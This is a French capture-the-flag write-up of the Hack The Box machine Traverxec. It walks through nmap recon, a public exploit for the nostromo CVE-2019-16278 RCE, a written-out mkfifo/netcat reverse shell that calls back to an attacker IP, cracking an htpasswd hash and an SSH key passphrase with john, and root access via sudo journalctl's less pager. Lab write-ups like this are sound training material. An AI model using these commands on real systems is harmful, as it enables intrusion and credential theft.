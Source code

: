 # Infos

Level : Easy  
OS : Linux  
IP : 10.129.24.71  
Hostname: traverxec

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-site.png)

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-form-disabled)

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![[80-rce.png]]

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![[shell-www-data.png]]

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, on peut voir un kernel un peut vieux

`OS: Linux version 4.19.0-6-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20)`

Variables d'env

![[www-data-peas-env.png]]

Crontab

`-rw-r--r-- 1 root root    1042 Jun 23  2019 /etc/crontab`

.htpasswd

![[www-data-peas-htpasswd.png]]

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![[lat-crack-hash.png]]

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![[lat-conf-nostromo.png]]

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![[lat-david-tgz.png]]

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![[tmp-backup-ssh.png]]

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![[lat-david_idrsa_crypt.png]]

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![[lat-david-idrsa_hash.png]]

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![[lat-david-idrsa_crack.png]]

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![[Hack The Box/traverxec/img/userflag.png]]

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![[pe-server-stats.png]]

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![[pe-suid-error.png]]

Alors qu'avec deux terminaux, ça fonctionne :D

![[rootflag.png]]


